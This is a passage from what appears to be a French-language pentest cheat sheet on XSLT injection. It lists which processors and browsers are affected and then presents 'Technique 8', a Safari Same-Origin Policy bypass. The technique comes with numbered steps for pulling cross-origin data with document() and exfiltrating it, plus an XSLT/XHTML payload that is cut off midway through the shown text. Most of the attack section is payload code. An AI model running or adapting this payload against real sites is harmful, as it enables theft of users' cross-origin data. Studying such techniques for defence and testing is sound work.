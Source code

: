 * ✅ xsltproc, PHP, Perl, Ruby (avec `import()` ou `include()`)
* ✅ Firefox (seulement dans le même répertoire)
* ❌ Xalan-C, Xalan-J, Saxon, Python
* ❌ Safari, Opera, Chrome, IE

***

#### 🎯 Technique 8 : Same-Origin Policy Bypass (Safari)

**Description :** Safari permet de contourner la Same-Origin Policy via XSLT pour voler des données cross-origin.

**Principe :**

1. Créer un fichier XHTML avec XSLT inline
2. Utiliser `document()` pour charger une URL cross-origin
3. Extraire les données avec `value-of()` ou `copy-of()`
4. Manipuler avec JavaScript et exfiltrer

**Payload complet :**

```xml
<?xml version="1.0" encoding="utf-8"?>
<?xml-stylesheet type="text/xsl" href="xoss.xhtml"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns="http://www.w3.org/1999/xhtml">

  <xsl:template match="xsl:stylesheet">
    <xsl:apply-templates/>
  </xsl:template>

  <xsl:template match="/">
    <html>
      <head>
        <title>XOSS - Cross Origin Site Scripting</title>
      </head>
      <body>
        <h1>Cross-Origin Data Theft</h1>
        <table>
          <xsl:apply-templates />
        </table>
      </body>
    </html>
  </xsl:template>

  <xsl:template match="text()"/>

  <xsl:template match="//node()[local-name() = name()]">
    <xsl:if test="local-name() = 'url'">
      <xsl:variable name="url" select="document(.)"/>
```

```xml
      <tr>
        <td><b>URL:</b></td>
        <td><xsl:value-of select="."/></td>
      </tr>
      
      <tr>
        <td><b>value-of:</b></td>
        <td>
          <textarea id="valueOf" rows="10" cols="100">
            <xsl:value-of select="$url"/>
          </textarea>
        </td>
      </tr>
```